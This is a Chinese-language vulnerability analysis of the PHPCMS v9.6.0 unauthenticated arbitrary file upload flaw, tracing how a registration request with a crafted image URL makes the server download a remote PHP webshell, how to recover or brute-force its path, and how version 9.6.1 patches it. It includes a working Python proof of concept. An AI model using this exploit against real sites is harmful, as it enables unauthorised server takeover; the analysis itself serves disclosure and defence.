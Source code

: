 > 原文链接: https://www.anquanke.com//post/id/85879 


# 【漏洞分析】PHPCMS v9.6.0 任意文件上传漏洞分析（已有补丁）


                                阅读量   
                                **124162**
                            
                        |
                        
                                                                                    



**<strong style="font-size: 18px;text-align: center">[![](https://p2.ssl.qhimg.com/t0130581a9909d7784c.png)](https://p2.ssl.qhimg.com/t0130581a9909d7784c.png)**</strong>

**<br>**

**Author: p0wd3r （知道创宇404安全实验室）**

**<br>**

**0x00 漏洞概述**

**漏洞简介**

前几天 phpcms v9.6 的任意文件上传的漏洞引起了安全圈热议，通过该漏洞攻击者可以在未授权的情况下任意文件上传，影响不容小觑。phpcms官方今天发布了9.6.1版本，对漏洞进行了补丁修复。

**漏洞影响**

任意文件上传

<br>

**0x01 漏洞复现**

本文从 PoC 的角度出发，逆向的还原漏洞过程，若有哪些错误的地方，还望大家多多指教。

首先我们看简化的 PoC ：



```
import re  
import requests
def poc(url):  
    u = '`{``}`/index.php?m=member&amp;c=index&amp;a=register&amp;siteid=1'.format(url)
    data = `{`
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '&lt;img src=http://url/shell.txt?.php#.jpg&gt;',
        'dosubmit': '1',
    `}`
    rep = requests.post(u, data=data)
    shell = ''
    re_result = re.findall(r'&amp;lt;img src=(.*)&amp;gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell
```

可以看到 PoC 是发起注册请求，对应的是phpcms/modules/member/index.php中的register函数，所以我们在那里下断点，接着使用 PoC 并开启动态调试，在获取一些信息之后，函数走到了如下位置：

[![](https://p4.ssl.qhimg.com/t014a664f9628ad5536.png)](https://p4.ssl.qhimg.com/t014a664f9628ad5536.png)

通过 PoC 不难看出我们的 payload 在$_POST['info']里，而这里对$_POST['info']进行了处理，所以我们有必要跟进。

在使用new_html_special_chars对&lt;&gt;进行编码之后，进入$member_input-&gt;get函数，该函数位于caches/caches_model/caches_data/member_input.class.php中，接下来函数走到如下位置：

[![](https://p1.ssl.qhimg.com/t0101f989be747d2dfc.png)](https://p1.ssl.qhimg.com/t0101f989be747d2dfc.png)

由于我们的 payload 是info[content]，所以调用的是editor函数，同样在这个文件中：

[![](https://p2.ssl.qhimg.com/t014ffb22ec8368075a.png)](https://p2.ssl.qhimg.com/t014ffb22ec8368075a.png)

接下来函数执行$this-&gt;attachment-&gt;download函数进行下载，我们继续跟进，在phpcms/libs/classes/attachment.class.php中：



```
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')  
`{`
    global $image_d;
    $this-&gt;att_db = pc_base::load_model('attachment_model');
    $upload_url = pc_base::load_config('system','upload_url');
    $this-&gt;field = $field;
    $dir = date('Y/md/');
    $uploadpath = $upload_url.$dir;
    $uploaddir = $this-&gt;upload_root.$dir;
    $string = new_stripslashes($value);
    if(!preg_match_all("/(href|src)=(["|']?)([^ "'&gt;]+.($ext))\2/i", $string, $matches)) return $value;
    $remotefileurls = array();
    foreach($matches[3] as $matche)
    `{`
        if(strpos($matche, '://') === false) continue;
        dir_create($uploaddir);
        $remotefileurls[$matche] = $this-&gt;fillurl($matche, $absurl, $basehref);
    `}`
    unset($matches, $string);
    $remotefileurls = array_unique($remotefileurls);
    $oldpath = $newpath = array();
    foreach($remotefileurls as $k=&gt;$file) `{`
        if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;
        $filename = fileext($file);
        $file_name = basename($file);
        $filename = $this-&gt;getname($filename);
        $newfile = $uploaddir.$filename;
        $upload_func = $this-&gt;upload_func;
        if($upload_func($file, $newfile)) `{`
            $oldpath[] = $k;
            $GLOBALS['downloadfiles'][] = $newpath[] = $uploadpath.$filename;
            @chmod($newfile, 0777);
            $fileext = fileext($filename);
            if($watermark)`{`
                watermark($newfile, $newfile,$this-&gt;siteid);
            `}`
            $filepath = $dir.$filename;
            $downloadedfile = array('filename'=&gt;$filename, 'filepath'=&gt;$filepath, 'filesize'=&gt;filesize($newfile), 'fileext'=&gt;$fileext);
            $aid = $this-&gt;add($downloadedfile);
            $this-&gt;downloadedfiles[$aid] = $filepath;
        `}`
    `}`
    return str_replace($oldpath, $newpath, $value);
`}`
```

函数中先对$value中的引号进行了转义，然后使用正则匹配：



```
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=(["|']?)([^ "'&gt;]+.($ext))\2/i",$string, $matches)) return $value;
```

这里正则要求输入满足src/href=url.(gif|jpg|jpeg|bmp|png)，我们的 payload （&lt;img src=http://url/shell.txt?.php#.jpg&gt;）符合这一格式（这也就是为什么后面要加.jpg的原因）。

接下来程序使用这行代码来去除 url 中的锚点：$remotefileurls[$matche] = $this-&gt;fillurl($matche, $absurl, $basehref);，处理过后$remotefileurls的内容如下：

[![](https://p4.ssl.qhimg.com/t01e3fd75f0607c5b3b.png)](https://p4.ssl.qhimg.com/t01e3fd75f0607c5b3b.png)

可以看到#.jpg被删除了，正因如此，下面的$filename = fileext($file);取的的后缀变成了php，这也就是 PoC 中为什么要加#的原因：把前面为了满足正则而构造的.jpg过滤掉，使程序获得我们真正想要的php文件后缀。

我们继续执行：

[![](https://p2.ssl.qhimg.com/t01d828578d36b2a555.png)](https://p2.ssl.qhimg.com/t01d828578d36b2a555.png)

程序调用copy函数，对远程的文件进行了下载，此时我们从命令行中可以看到文件已经写入了：

[![](https://p2.ssl.qhimg.com/t015f16f10acd5bb7c2.png)](https://p2.ssl.qhimg.com/t015f16f10acd5bb7c2.png)

shell 已经写入，下面我们就来看看如何获取 shell 的路径，程序在下载之后回到了register函数中：

[![](https://p0.ssl.qhimg.com/t0168010ac7f0e424b6.png)](https://p0.ssl.qhimg.com/t0168010ac7f0e424b6.png)

可以看到当$status &gt; 0时会执行 SQL 语句进行 INSERT 操作，具体执行的语句如下：

[![](https://p2.ssl.qhimg.com/t01e16abdd744e2d50b.png)](https://p2.ssl.qhimg.com/t01e16abdd744e2d50b.png)

也就是向v9_member_detail的content和userid两列插入数据，我们看一下该表的结构：

[![](https://p5.ssl.qhimg.com/t01abd6b7c4bbbb14ac.png)](https://p5.ssl.qhimg.com/t01abd6b7c4bbbb14ac.png)

因为表中并没有content列，所以产生报错，从而将插入数据中的 shell 路径返回给了我们：

[![](https://p0.ssl.qhimg.com/t01cbf87ec45299c5f5.png)](https://p0.ssl.qhimg.com/t01cbf87ec45299c5f5.png)

上面我们说过返回路径是在$status &gt; 0时才可以，下面我们来看看什么时候$status &lt;= 0，在phpcms/modules/member/classes/client.class.php中：

[![](https://p5.ssl.qhimg.com/t01e929fa9d2acf8378.png)](https://p5.ssl.qhimg.com/t01e929fa9d2acf8378.png)

几个小于0的状态码都是因为用户名和邮箱，所以在 payload 中用户名和邮箱要尽量随机。

另外在 phpsso 没有配置好的时候$status的值为空，也同样不能得到路径。

在无法得到路径的情况下我们只能爆破了，爆破可以根据文件名生成的方法来爆破：

[![](https://p2.ssl.qhimg.com/t0185d488ee79b727dc.png)](https://p2.ssl.qhimg.com/t0185d488ee79b727dc.png)

仅仅是时间加上三位随机数，爆破起来还是相对容易些的。

<br>

**0x02 补丁分析**

phpcms 今天发布了9.6.1版本，针对该漏洞的具体补丁如下：

[![](https://p3.ssl.qhimg.com/t012ed6bf26eccb60ee.png)](https://p3.ssl.qhimg.com/t012ed6bf26eccb60ee.png)

在获取文件扩展名后再对扩展名进行检测

<br>

**0x03 参考**

[https://www.seebug.org/vuldb/ssvid-92930](https://www.seebug.org/vuldb/ssvid-92930)

[[漏洞预警]PHPCMSv9前台GetShell (2017/04/09)](https://mp.weixin.qq.com/s?__biz=MzIyNTA1NzAxOA==&amp;mid=2650473914&amp;idx=1&amp;sn=9eb94f27c121709d837c3e4df07cc7f8&amp;pass_ticket=41uQwVrah%2B7ri0tXROEWobgq0%2BWtquBSape7MYFkD8RoRn8cVYczGKQcP%2BtCq2Jp)
